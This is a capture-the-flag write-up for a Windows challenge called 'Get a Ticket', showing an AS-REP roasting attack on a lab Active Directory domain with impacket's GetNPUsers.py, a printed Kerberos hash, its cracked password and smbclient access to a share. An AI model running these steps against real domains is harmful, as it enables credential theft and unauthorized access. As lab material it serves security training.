


# Get a Ticket

## CATEGORY

Windows

## Challenge

We must find a way to access the shared folders configured on this server. I don't see anyway, but maybe you can figure it out...

300 points

## Hint(s)

None used.

## Solution

Running another deeper nmap scan gets us the following:

From here, we can see that the domain used for the Active Directory is gdc.local. We add gdc.local with the IP address to /etc/hosts, and test all users found in our earlier enumeration with GetNPUsers.py in impacket.

From here, we finally find one user where we can get a password.

    python3 GetNPUsers.py gdc.local/liam.a -no-pass
    ...
    Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

    [*] Getting TGT for liam.a

    $krb5asrep$23$liam.a@GDC.LOCAL:c96d5d7aca53e00b38e373b2db78bec2$9a63ed92e74065f71199f566ac6e7d8a34d3d82d96e67e6d9261c3b8fcd1343ca5b21c7db150797dee3703b461e50a44cbe2e17a04adfe97107c74254889d00e7e265a301145dd88d16628c4ed18a42b45ef1a0c70833862f4ca3f241f60699173a56c799f41b9bb57cd2a92896244e27e4feeff8f0e8cb5f34dd424cc252eefe39a71452c0c8164a8336a660165ea4e5e49db070fb62acc22f57a50b4bb2e8e3972a2e2dce6bb86cc948b66945ea47cfd2435c5054515fab97f43388f6f4694066cd1bd7ebe51b74e99dd1d27d09c02cd26777a61e51692f066043d3cc71ccf1e8e51435159

The above decrypts to p@ssw0rd, which we can use to get access to smb shares.

We run

    showmount -e IP ADDRESS

    smbclient \\\\gdc.local\\Mission2 --user liam.a

and get the flag.txt file.

## Flag

    CDDC21{4S_REP_R0A$T}
